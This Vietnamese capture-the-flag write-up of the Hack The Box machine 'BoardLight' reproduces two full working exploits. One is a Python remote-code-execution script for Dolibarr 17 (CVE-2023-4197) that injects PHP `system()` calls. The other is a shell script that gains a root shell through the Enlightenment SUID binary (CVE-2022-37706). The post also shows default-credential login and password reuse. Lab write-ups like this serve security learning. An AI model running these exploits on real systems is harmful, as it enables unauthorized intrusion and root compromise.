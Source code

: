 ```yaml
---
title: "BoardLight"
date: 2024-05-26 20:26:10 +0700
categories: [hackthebox]
tags: [hackthebox, web]
authors: [toan]
toc: true
---
```


## Introduction
Bài tương đối dễ của sesson 5, mới mở ngày 25/05/2024

## Recons
Dùng nmap scanner tool, port opens: `80, 22`. Check web trên port 80 không có gì đặc biệt. Sau khi vô tình thấy board.htb tại footer, tôi tiến hành enum vhost. có 1 miền đc scan tên là `crm.board.htb`.

## User flag
Tìm các CVE liên quan đến Vendor đang chạy trên `crm` (Dolibarr). Trước tiên server có thể đăng nhập qua default creds là `admin:admin`. Sau đó xem các CVE liên quan đến version đang chạy `Dolibarr 17.0.1`. TÔi thấy [CVE-2023-4197](https://starlabs.sg/advisories/23/23-4197/) là liên quan nhất cụ thể thuộc về CWE `CWE-20: Improper Input Validation`. Đoạn code trong bài ko chạy đc. Tôi đã tìm được đoạn code trên github đã chỉnh sửa để chạy được.
```python
# Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197)
# Via: https://TARGET_HOST/website/index.php
# Author: Poh Jia Hao (STAR Labs SG Pte. Ltd.)

#!/usr/bin/env python3
import os
import re
import requests
import sys
import uuid
requests.packages.urllib3.disable_warnings()

s = requests.Session()

def check_args():
    global target, username, password, cmd

    print("\n===== Dolibarr ERP CRM (v18.0.1) Improper Input Sanitization Vulnerability (CVE-2023-4197) =====\n")

    if len(sys.argv) != 5:
        print("[!] Please enter the required arguments like so: python3 {} https://TARGET_URL USERNAME PASSWORD CMD_TO_EXECUTE".format(sys.argv[0]))
        sys.exit(1)

    target = sys.argv[1].strip("/")
    username = sys.argv[2]
    password = sys.argv[3]
    cmd = sys.argv[4]

def authenticate():
    global s, csrf_token

    print("[+] Attempting to authenticate...")

    # GET the CSRF token
    res = s.get(f"{target}/", verify=False)
    csrf_token = re.search("\"anti-csrf-newtoken\" content=\"(.+)\"", res.text).group(1).strip()

    # Login
    data = {
        "token": csrf_token,
        "username": username,
        "password": password,
        "actionlogin": "login"
    }
    res = s.post(f"{target}/", data=data, verify=False)

    if "Logout" not in res.text:
        print("[!] Authentication failed! Are the credentials valid?")
        sys.exit(1)
    else:
        print("[+] Authenticated successfully!")

def rce():
    # Create web site
    print("[+] Attempting to create a website...")
    website_name = uuid.uuid4().hex
    data = {
        "WEBSITE_REF": website_name,
        "token": csrf_token,
        "action": "addsite",
        "WEBSITE_LANG": "en",
        "addcontainer": "create"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Website - {website_name}" not in res.text:
        print("[!] Website creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created website name: \"{website_name}\"!")

    # Create web page
    print("[+] Attempting to create a web page...")
    webpage_name = uuid.uuid4().hex
    data = {
        "website": website_name,
        "token": csrf_token,
        "action": "addcontainer",
        "WEBSITE_TYPE_CONTAINER": "page",
        "WEBSITE_TITLE": "x",
        "WEBSITE_PAGENAME": webpage_name
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if f"Contenair \\'{webpage_name}\\' added" not in res.text:
        print("[!] Web page creation failed!")
        sys.exit(1)
    else:
        print(f"[+] Created web page name: \"{webpage_name}\"!")

    # Modify created page
    print("[+] Attempting to modify the web page...")
    webpage_id = re.search(f"<option value=\"(.+)\" .+{webpage_name}", res.text).group(1).strip()
    data = {
        "website": website_name,
        "WEBSITE_PAGENAME": webpage_name,
        "pageid": webpage_id,
        "token": csrf_token,
        "action": "updatemeta",
        "htmlheader": f"<?PHP echo system('{cmd}'); ?>"
    }
    res = s.post(f"{target}/website/index.php", data=data, verify=False)
    if "Saved" not in res.text:
        print("[!] Web page modification failed!")
        sys.exit(1)
    else:
        print("[+] Web page modified successfully!")

    # Trigger RCE
    print(f"[+] Triggering RCE now via: {target}/public/website/index.php?website={website_name}&pageref={webpage_name}")
    res = s.get(f"{target}/public/website/index.php?website={website_name}&pageref={webpage_name}", verify=False)
    if res.status_code != 200:
        print("[!] Web page is not reachable!")
        sys.exit(1)
    else:
        output = re.findall("block -->\n(.+)</head>", res.text, re.MULTILINE | re.DOTALL)[0].strip()
        print(f"[+] RCE successful! Output of command:\n\n{output}")

def main():
    check_args()
    authenticate()
    rce()

if __name__ == "__main__":
    main()
```
Các bạn có thể đọc lại để check thay đổi (không nhiều vẫn theo nội dung của PoC trong bài phân tích). bạn có thể chạy tử và thực thi code, tôi đã tim đc trên server có user tên là `larissa`, mở file config để tìm pass db thử. `/var/www/html/crm.board.htb/htdocs/conf/conf.php` tìm đc creds của user `larissa:ser<------->023!!` <br>
Login ssh bằng creds trên và get user flag.

## Root flag
Check sticky bit tìm file có sticky bit và search mạng thử cách crack, tôi đã check bằng linpeas và thử vs CVE exploit `DirtyPies` nhưng không đc (có yêu cầu xác thực) chắc đã prevent rồi. [Link CVE-2022-37706](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-37706), [Link Code](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
![image.png](https://i.postimg.cc/qv0Wq1B6/image.png)
![image.png](https://i.postimg.cc/CxNXqbdP/image.png)
```shell
larissa@boardlight:~$ cat exploit.sh
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
lên Root rồi lấy flag thôi. Cảm ơn đã xem. `good luck!`